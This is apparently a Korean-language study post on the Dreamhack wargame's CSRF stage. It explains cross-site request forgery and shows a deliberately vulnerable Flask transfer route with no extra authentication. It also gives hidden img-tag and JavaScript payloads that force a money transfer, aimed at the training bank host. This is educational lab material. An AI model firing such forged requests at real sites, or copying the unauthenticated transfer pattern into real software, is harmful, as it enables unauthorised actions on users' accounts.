 ```yaml
---
layout : single
title : "STAGE5. Cross Site Request Forgery"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```

# 드림핵 웹 Cross Site Request Forgery (CSRF)
이용자의 신원 정보가 포함된 쿠키는 서명과 같은 역할을 함 (이용자가 문서의 내용에 동의했다). 따라서, 이용자의 식별 정보가 포함된 쿠키는 클라이언트의 요청이 이용자로부터 왔으며, 이를 이용자가 동의했고, 요청에 이용자의 권한이 부여되어야함을 의미한다.<br><br>
XXS는 서명을 날조하는 공격에 대응되며, CSRF(교차 사이트 요청 위조)는 이미 서명된 문서를 위조하는 것에 대응된다. 조작된 문서의 내용이 서명으로 인해 효력을 가지게 되는 것을 뜻한다. CSRF는 이러한 방식으로 이용자를 속여서 의도치 않은 요청에 동의하도록 한다.

## CSRF
임의 이용자의 권한으로 임의 주소에 HTTP 요청을 보낼 수 있는 취약점으로, 공격자는 임의 이용자의 권한으로 서비스를 이용해 이득을 취할 수 있다. (금전적인 이득, 혼란 야기)
<br><br>

**이용자의 송금 요청*

```http
GET /sendmoney?to=dreamhack&amount=1337 HTTP/1.1
Host: bank.dreamhack.io
Cookie: session=IeheighaiToo4eenahw3
```

**CSRF 취약점이 존재하는 예제 코드*

```python
# 이용자가 /sendmoney에 접속했을때 아래와 같은 송금 기능을 웹 서비스가 실행함.
@app.route('/sendmoney')
def sendmoney(name):
    # 송금을 받는 사람과 금액을 입력받음.
    to_user = request.args.get('to')
	amount = int(request.args.get('amount'))
	
	# 송금 기능 실행 후, 결과 반환	
	success_status = send_money(to_user, amount)
	
	# 송금이 성공했을 때,
	if success_status:
	    # 성공 메시지 출력
		return "Send success."
	# 송금이 실패했을 때,
	else:
	    # 실패 메시지 출력
		return "Send fail."
```
위 코드는 이용자로부터 예금주와 금액을 입력받고, 계좌의 비밀번호 또는 OTP 등의 사용 없이 송금을 수행한다. 따라서, 로그인한 사용자는 추가 인증 정보 없이 해당 기능을 사용할 수 있다.

### CSRF 동작
공격에 성공하기 위해서는 공격자의 악성 스크립트(HTTP 요청을 전송하는 코드)를 이용자가 실행해야하며, 이는 메일또는 게시판의 글을 통해 이용자가 이를 조회하도록 유도하는 방법이 있다. <br><br>

#### HTML

\* img 태그를 사용한 스크립트의 예로, 이미지의 크기를 줄일 수 있는 옵션을 제공하여 임의 페이지에 요청을 보내도록 한다
```html
<img src='http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337' width=0px height=0px>
```

\* img 또는 form 태그를 사용하면 HTTP 헤더인 Cookie에 이용자의 인증 정보가 포함됨
```html
<img src='https://test.dreamhack.io/main-long.png'>
```

```html
<form action="https://test.dreamhack.io/users/1" method="post">
    <input name = "user">
    <input name = "pass">
    <input type = "submit">
</form>
```

#### JavaScript

```javascript
/* 새 창 띄우기 */
window.open('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
/* 현재 창 주소 옮기기 */
location.href = 'http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
```

### 실습
-  [x]  XSS 발생 예시와 종류<br>
Javascript 실행이 제한된 모듈에서, HTML 태그를 통해 계좌 잔고를 1000000원 이상으로 늘려보세요<br>

>>```html
<img src="/sendmoney?to=dreamhack&amount=1337">
```

>><img src="/images/webbackground/7.png">